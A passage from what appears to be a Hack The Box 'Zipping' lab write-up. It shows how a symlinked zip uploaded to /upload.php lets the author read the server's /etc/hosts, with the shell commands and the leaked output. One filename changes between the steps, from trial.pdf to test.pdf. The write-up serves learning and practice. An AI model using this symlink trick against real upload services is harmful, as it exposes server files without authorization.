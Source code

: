 I also discover a page with upload functionality on `/upload.php`.

<figure><img src="../src/Zipping/uploadpage.png"></figure>

Let's use the technique with symbolic link creation:

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/zipping]
└──╼ $ln -s /etc/hosts trial.pdf

┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/zipping]
└──╼ $zip --symlinks trial.zip trial.pdf 
  adding: trial.pdf (stored 0%)
```

Uploading zip to the interface. We get this response

```
File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:
uploads/365174d74d12fe3a7c3b1fe74de5219e/trial.pdf
```

We get the following result.

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/zipping]
└──╼ $cat test.pdf 
127.0.0.1 localhost
127.0.1.1 zipping

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
